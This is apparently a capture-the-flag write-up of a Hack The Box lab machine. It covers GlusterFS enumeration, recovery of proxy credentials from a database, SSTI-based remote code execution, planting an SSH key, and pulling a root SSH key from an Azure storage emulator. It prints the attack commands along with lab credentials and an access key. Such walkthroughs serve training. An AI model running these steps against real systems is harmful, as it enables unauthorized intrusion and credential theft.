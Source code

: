 ![[Pasted image 20250425164611.png]]
[[nmap]] reports [[port 80]] open but without relevant information.

searching on our browser the [[port 24007]] and we found information `gluster` we can use the tool [[glusterfs]] to enumerate this.

```bash
sudo gluster --remote-host=flustered.htb
```

![[Pasted image 20250425182513.png]]

and we got two volumes, now, we should mount someone on our machine using [[mount]].

```bash
sudo mount -t glusterfs flustered.htb:/vol1
```

but at try the mount is failed, and checking logs we find this:

![[Pasted image 20250425183002.png]]

so we need a cert `glusterfs.pem`.
then we try with `vol2` failed too, but on logs we get this:

![[Pasted image 20250425183150.png]]

so trying add flustered to `/etc/hosts`

![[Pasted image 20250425183923.png]]

and we get that information, lets play with [[Docker]] to create a container with this information and manipulate there.

![[Pasted image 20250425185652.png]]

considering this version of [[mariadb]].

```bash
docker run -d \
	--name mariadb \
	-v ./content/mysql:/var/lib/mysql \
	-v ./content/socket.cnf:/etc/mysql/mariadb.conf.d/socket.cnf \	
	-e MARIADB_ALLOW_EMPTY_ROOT_PASSWORD=1 \
	-p 3306:3306 \
	mariadb:10.3.31
```

once with container create we can enter with interactive mode:

```bash
docker exec --it mariadb bash
```

and checking the database called `squid` we found this:

![[Pasted image 20250425194700.png]]

so that credentials we can use to authenticate to [[squid-http]] proxy on [[port 3128]]

```bash
curl --proxy "http://lance.friedman:o>WJ5-jD<5^m3@flustered.htb:3128" 127.0.0.1
```

![[Pasted image 20250425195216.png]]

and we get access.

with [[gobuster]] we can pass through proxy to with [[fuzzing]] list directories.

```bash
gobuster dir --proxy "http://lance.friedman:o%3EWJ5-jD%3C5%5Em3@flustered.htb:3128" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://127.0.0.1          
```

and we got `app/` directory, let's try scan by extensions `py`

![[Pasted image 20250425195804.png]]

gobuster find `app.py`, download it [[curl]].

![[Pasted image 20250425200036.png]]

```bash
curl --proxy "http://lance.friedman:o%3EWJ5-jD%3C5%5Em3@flustered.htb:3128" http://127.0.0.1/app/app.py > ./content/app.py        
```

![[Pasted image 20250425202538.png]]

basically, the web can receive a parameter `siteurl` by method `POST` and going set on title of the web.

so, we can use [[Burpsuite]] to tunneling that requests and event [[Server Side Template Injection (SSTI)]]

```bash
curl -s -X POST http://flustered.htb -d '{"siteurl":"{{8*8}}"}' -H 'Content-type: application/json' --proxy http://127.0.0.1:8080
```

![[Pasted image 20250425203135.png]]

and get remote execution commands.
with [[Payload All The Things]] we can get remote access

![[Pasted image 20250425203751.png]]

remembering the [[glusterfs]] and `vol1` require `.pem` keys, we can check `/etc/ssl` to find something.

![[Pasted image 20250425204908.png]]

then, copy these files on your host machine in the path `/etc/ssl/`

![[Pasted image 20250425205538.png]]
we mount `vol1` successful. 

![[Pasted image 20250425205649.png]]

looks like home directory from user of target machine.
now, we can create a pair of keys and put the public in `.ssh` directory of the mount.

![[Pasted image 20250425210020.png]]
and we're `jennifer`.

scanning the network we found a container on `172.17.0.2` with port 10000 open.

so using [[ssh]] we can event a local port forwarding to get access to that port.

```bash
ssh jennifer@flustered.htb -L 10000:172.17.0.2:10000
```

with [[nmap]] now we can perform a scan to against our own machine.

searching the error displayed on localhost:10000 we to know are running [[azure storage-explorer]], so with docker we can check it

```bash
docker run --network="host" -it mcr.microsoft.com/azure-cli:2.30.0 bash
```

and using a connection string

```bash
az storage container list --connection-string "DefaultEndpointsProtocol=http;AccountName=jennifer;AccountKey=FMinPqwWMtEmmPt2ZJGaU5MVXbKBtaFyqP0Zjohpoh39Bd5Q8vQUjztVfFphk73+I+HCUvNY23lUabd7Fm8zgQ==;BlobEndpoint=http://localhost:10000/jennifer;" --output table
```

the `AccessKey` is in directory `/var/backup/key` of `jennifer` you can find them with [[find]] filtering by name `key`

![[Pasted image 20250425233302.png]]

we got some interesting table called `ssh-keys`

![[Pasted image 20250425233423.png]]

and we can download `root.key`

```bash
az storage blob download --container-name ssh-keys --name root.key --file /tmp/root.txt --connection-string "DefaultEndpointsProtocol=http;AccountName=jennifer;AccountKey=FMinPqwWMtEmmPt2ZJGaU5MVXbKBtaFyqP0Zjohpoh39Bd5Q8vQUjztVfFphk73+I+HCUvNY23lUabd7Fm8zgQ==;BlobEndpoint=http://localhost:10000/jennifer;"
```

![[Pasted image 20250425233716.png]]

that result being the root ssh key, so it's done.